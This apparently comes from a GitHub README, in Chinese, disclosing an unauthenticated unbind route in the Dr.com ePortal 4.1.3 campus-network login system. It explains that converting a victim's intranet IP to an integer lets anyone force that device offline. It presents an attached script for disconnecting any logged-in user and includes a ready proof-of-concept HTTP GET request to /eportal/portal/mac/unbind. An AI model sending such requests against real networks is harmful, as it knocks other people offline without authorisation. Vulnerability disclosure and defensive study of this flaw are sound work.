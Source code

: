 # DrcomCutdown
Dr.com Eportal校园网认证系统任意踹人下线（断网）漏洞 附脚本

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果（前提是得知道目标内网ip地址）

# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后(已附脚本，算法在脚本里面)，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```
GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue}&lang=en HTTP/1.1
Host: xx.xx.xx.xx:xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.10.154/
```
